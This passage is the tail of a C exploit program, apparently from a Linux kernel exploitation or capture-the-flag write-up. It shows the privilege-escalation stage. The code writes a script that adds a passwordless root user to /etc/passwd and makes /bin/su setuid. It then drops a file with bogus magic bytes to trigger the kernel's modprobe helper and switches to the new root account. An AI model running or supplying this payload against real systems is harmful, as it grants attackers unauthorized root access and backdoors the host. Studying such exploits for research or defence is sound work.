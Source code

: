 ```c
        "echo 'vjp::0:0:root:/:/bin/sh' >> /etc/passwd\n"
        "/bin/chmod +s /bin/su"
    );
    close(vjpfd);
    if(chmod("/home/user/vjp",0777))
        errExit("chmod");

    //Trigger call call_modprobe
    int magic = open("/home/user/pwn",O_CREAT | O_RDWR);
    if(magic < 0)
        errExit("open /home/user/pwn");
    dprintf(magic,"\x13\x37\x42\x42");
    close(magic);
    if(chmod("/home/user/pwn",0777))
        errExit("chmod");

    //Root
    system("/home/user/pwn");
    system("cat /etc/passwd");
    system("su vjp");
    }
```
![image](https://github.com/robbert1978/robbert1978.github.io.old/assets/31349426/e7a3d486-8d7b-4ab2-b92b-37a4e0ed2e37)



